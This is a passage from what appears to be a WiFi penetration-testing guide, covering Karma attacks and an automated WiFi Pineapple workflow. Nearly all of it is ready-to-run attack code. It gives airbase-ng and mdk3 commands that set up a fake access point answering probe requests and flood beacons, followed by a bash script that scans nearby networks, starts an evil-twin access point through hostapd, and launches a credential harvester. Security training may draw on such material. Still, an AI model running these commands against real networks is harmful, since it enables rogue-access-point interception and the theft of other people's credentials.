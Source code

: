 ```html
</body>
</html>
```

## Phase 5: Advanced Attack Techniques

### 5.1 Karma Attack

```bash
# Create fake AP responding to probe requests
sudo airbase-ng -c 6 -e "" -P -C 30 wlan0mon

# Enhanced karma with multiple SSIDs
sudo mdk3 wlan0mon b -f ssid_list.txt -s 100
```

### 5.2 WiFi Pineapple Automation

```bash
# Pineapple module for automated reconnaissance
#!/bin/bash

# Recon module
function wifi_recon() {
    echo "[+] Starting WiFi reconnaissance..."
    
    # Passive scan
    airodump-ng wlan1mon --write recon_$(date +%Y%m%d_%H%M%S) --output-format csv &
    RECON_PID=$!
    
    sleep 300  # 5 minute scan
    kill $RECON_PID
    
    # Parse results
    python3 /root/analyze_survey.py recon_*.csv
}

# Evil twin deployment
function deploy_evil_twin() {
    local target_ssid=$1
    echo "[+] Deploying evil twin for: $target_ssid"
    
    # Configure hostapd
    cat > /tmp/evil_twin.conf <<EOF
interface=wlan1
ssid=$target_ssid
channel=6
hw_mode=g
EOF
    
    hostapd /tmp/evil_twin.conf &
    
    # Start credential harvesting
    python3 /root/credential_harvester.py &
}

# Main execution
wifi_recon
deploy_evil_twin "TARGET_NETWORK"
```
